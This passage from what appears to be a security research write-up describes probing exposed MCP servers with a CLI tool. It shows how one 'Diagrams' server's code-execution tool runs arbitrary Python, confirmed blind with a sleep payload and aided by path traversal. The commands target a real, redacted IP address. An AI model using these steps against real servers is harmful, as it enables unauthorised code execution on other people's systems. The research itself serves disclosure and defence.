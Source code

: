 As you now understand, we can fully interact with these as an LLM would, to make them do what we want and steal all your NFTs (well, as much as our morals would let us). Some of these weren't just as straightforward as being inherently sensitive through tool use. There were the ones requiring actual exploits, mostly injections, to find things.

To interact with the servers, like listing tools/resources/prompts, we created a simple CLI that will be used below as `mcpc`:

[https://github.com/JorianWoltjer/mcp-cli](https://github.com/JorianWoltjer/mcp-cli "")

Here are some of the highlights.

#### Evaluate Python

While the underlying code is still a bit of a mystery, one server we encountered had some functionality that is borderline a vulnerability, but also just hard to do correctly. It starts with the following available tools:

```hljs shell
$ mcpc http://13.███.██.██:8000
Name: 'Diagrams'
-> Tools:
   1. Generate workflows (for flowcharts or low code) in DOT format
      generate_png_from_dot '{"dot_string": "", "prompt_id": ""}'
   2. Execute the cloud system architecture Diagrams code and generate an image.
      execute_diagrams_code '{"diagrams_code": "", "filename": ""}'
```

_One of these_ definitely sounds a hell of a lot more suspicious than the other. Searching online for "cloud system architecture Diagrams code", we quickly find the [github.com/mingrammer/diagrams](https://github.com/mingrammer/diagrams "") repository. It's a Python library that allows you to generate diagram images from code. With this MCP server, we can "execute" this kind of code, so it seems like we can just run any arbitrary Python?

```hljs shell
$ time mcpc http://13.███.██.██:8000 execute_diagrams_code '{"diagrams_code": "print(1+1)", "filename": "x"}'

Error during execution: [Errno 2] No such file or directory: 'C:\\Users\\a██████k\\Downloads\\WORK\\MCP\\Diagarams mcp\\diagrams_tmp\\x.png'

real    0m2.217s
```

> **Note**: at first we thought the PNG needed to exist, and the error was _before_ our code got a chance to execute. This turned out to be false, but we got it working anyway with a path traversing back to `C:\Windows\IdentityCRL\wlive48x48.png` :)

We don't see the output of a `print()` statement, but we can try to let it sleep for a bit to check if the code still executes:

```hljs shell
$ time mcpc http://13.███.██.██:8000 execute_diagrams_code '{"diagrams_code": "__import__(\"time\").sleep(5)", "filename": "x"}'

real    0m7.080s
```
